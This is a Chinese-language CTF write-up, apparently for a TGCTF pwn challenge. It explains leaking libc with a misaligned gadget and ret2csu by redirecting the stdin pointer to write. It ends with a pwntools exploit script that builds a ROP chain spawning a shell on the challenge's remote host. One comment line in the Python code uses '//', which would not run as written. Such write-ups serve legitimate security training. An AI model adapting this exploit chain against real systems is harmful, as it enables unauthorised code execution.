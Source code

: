 首先我想到要泄露libc,可是没有输出函数...

但是本地没有开启PIE保护,这就让我有了能使用magci\_gadget的机会

这个gadget 是通过错位得到的,直接在IDA中无法找到

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918546.png)

magci=0x400549-1

magic:

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918547.png)

可以修改rbp-0x3d的值,只要rbp与ebx是可控的,这时我们想到cus中刚刚好有控制二者的片段

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918548.png)

我们在rop中,可以将rbx设置为stdin+0x3d,那么此时我们就可以改变stdin内指向的内容,我们虽然不知道具体将其改成什么,但是我们知道\_IO\_2\_1\_stdin\_与write函数的偏移,那么利用这个偏移就可以将stdin修改为一个包含write函数的"表",结构和got表一模一样!而且它是可写的

想要直接利用got表的话,又要利用cus中的第二段gadget,这段gadget给予了我们直接调用got表中函数的能力,此时我们便可以轻松泄露libc

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918549.png)

不要忘记泄露完libc后要用上述流程将stdin重定向回\_IO\_2\_1\_stdin\_,我们后续还有直接攻击的rop链要注入,必须保证标准输入的合法

这后面就是普普通通的rop了,随便syscall或者system("/bin/sh")都可以,反正libc中什么都有:)

```python
from pwn import *
#io=process('./pwn')
io=remote("node2.tgctf.woooo.tech",32740)
libc=ELF('./libc.so.6')
def bug():
    gdb.attach(io)
rdi=0x400663
gets=0x400470
cus1=0x40065A
cus2=0x400640
magic=0x400548
stdin=0x601020
offset=0xFFFFFFFFFFEF9DD0//offset _IO_2_1_stdin_ to write==-1*0x106230
bss=0x601800
leave=0x4005FB
payload=b'\x00'*0x10+p64(bss+8)+p64(cus1)+p64(offset)+p64(stdin+0x3d)+p64(0)*4+p64(magic)+p64(cus1)
payload+=p64(0)+p64(1)+p64(stdin)+p64(1)+p64(0x600FE8)+p64(0x10)+p64(cus2)+p64(0)*7
payload+=p64(cus1)+p64(0x106230)+p64(stdin+0x3d)+p64(0)+p64(bss)+p64(0)*2+p64(magic)
payload+=p64(0x4005E5)

io.sendline(payload)
base=u64(io.recv(8))-libc.sym['gets']
success("base=>"+str(hex(base)))
system=base+libc.sym['system']
bin_sh=base+next(libc.search(b"/bin/sh\x00"))
print(hex(system))
rsi=base+0x000000000002be51
rdx=base+0x000000000011f2e7
rax=base+0x0000000000045eb0
syscall=base+0x0000000000029db4
payload=b'\x00'*0x18+p64(rdi)+p64(bin_sh)+p64(rsi)+p64(0)+p64(rdx)+p64(0)*2+p64(rax)+p64(0x3b)+p64(syscall)
io.sendline(payload)
io.interactive()
```
